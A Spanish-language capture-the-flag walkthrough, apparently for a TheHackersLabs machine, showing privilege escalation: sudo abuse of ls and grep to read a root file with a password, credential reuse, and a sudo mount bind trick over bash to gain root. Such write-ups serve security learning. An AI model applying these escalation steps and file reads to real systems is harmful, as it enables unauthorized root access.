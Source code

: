 Nos aprovechamos para ver los archivos de **root**
```bash
sudo -u root /bin/ls -la /root
```

Tenemos un archivo que necesitamos ver su contenido
```bash
-rw-r--r-- 1 root root   36 Aug 10 09:43 secretitomaximo.txt
```

Ahora nos aprovechamos del binario de **grep** para ver el contenido:
```bash
sudo -u root /bin/grep '' /root/secretitomaximo.txt

# Tenemnos una postible contrasena
ElcipotedeChocolate-CipotitoCipoton
```

```bash
# Comando para escalar al usuario: ( root )
su root
Password: ElcipotedeChocolate-CipotitoCipoton
```

Tenemos privilegios maximos y ahora tenemos informacion, del usuario **cipote** de primer objetivo, Asi que tambien probramos escas credenciales para ver si existe reutilizacion de credenciales
```bash
# Primer maquina victima
Sophia@TheHackersLabs-PaQueAigaLujo:~$ su cipote
Contraseña: ElcipotedeChocolate-CipotitoCipoton
```

Tenemos la flag de usuario en el directorio de **cipote**
```bash
-r-------- 1 cipote cipote   36 ago  3 12:15 user.txt
```

Listanod los permisos para este usaurio tenemos lo siguiente:
```bash
sudo -l 

User cipote may run the following commands on TheHackersLabs-PaQueAigaLujo:
    (ALL) NOPASSWD: /usr/bin/mount
```

Ahora tenemos una via potencial de escalar a **root**
```bash
sudo -u root /usr/bin/mount -o bind /bin/bash /bin/mount # Primero ejecutamos este comando
sudo mount # Despues ejecutamos este
```

Ahora que ya gamos acceso como **root**, listamos la flag de **root**
```bash
ls -la /root

-r--------  1 root root        36 ago  3 12:16 root.txt
```

---
